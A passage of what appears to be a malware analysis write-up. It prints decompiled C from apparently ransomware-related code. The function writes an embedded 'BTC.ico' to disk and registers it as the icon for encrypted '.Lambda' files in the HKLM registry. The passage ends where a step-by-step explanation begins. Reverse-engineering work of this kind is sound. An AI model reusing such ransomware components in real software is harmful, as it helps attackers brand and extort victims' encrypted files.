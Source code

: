 ### Change icon for .Lambda file

```
void sub_409A50()
{
  HRSRC ResourceW; // esi
  DWORD v1; // edi
  HGLOBAL Resource; // eax
  const void *v3; // ebx
  HANDLE FileW; // esi
  int v5; // eax
  WCHAR pszPath[260]; // [esp+0h] [ebp-210h] BYREF
  DWORD NumberOfBytesWritten; // [esp+208h] [ebp-8h] BYREF
  HKEY phkResult; // [esp+20Ch] [ebp-4h] BYREF

  if ( !Parameter && dword_4309CC )
  {
    SHGetFolderPathW(0, 35, 0, 0, pszPath);
    lstrcatW(pszPath, L"\\BTC.ico");
    ResourceW = FindResourceW(0, (LPCWSTR)0x66, (LPCWSTR)0xA);
    v1 = SizeofResource(0, ResourceW);
    Resource = LoadResource(0, ResourceW);
    v3 = LockResource(Resource);
    NumberOfBytesWritten = 0;
    FileW = CreateFileW(pszPath, 0x40000000u, 0, 0, 1u, 0x80u, 0);
    if ( FileW != (HANDLE)-1 )
    {
      WriteFile(FileW, v3, v1, &NumberOfBytesWritten, 0);
      CloseHandle(FileW);
    }
    if ( !RegCreateKeyExW(
            HKEY_LOCAL_MACHINE,
            L"SOFTWARE\\Classes\\.Lambda\\DefaultIcon",
            0,
            0,
            0,
            0x2011Fu,
            0,
            &phkResult,
            0) )
    {
      v5 = lstrlenW(pszPath);
      RegSetValueExW(phkResult, 0, 0, 1u, (const BYTE *)pszPath, 2 * v5 + 2);
      RegCloseKey(phkResult);
    }
    SHChangeNotify(0x8000000, 0, 0, 0);
  }
}
```

1.  **Path and Resource Preparation:**
    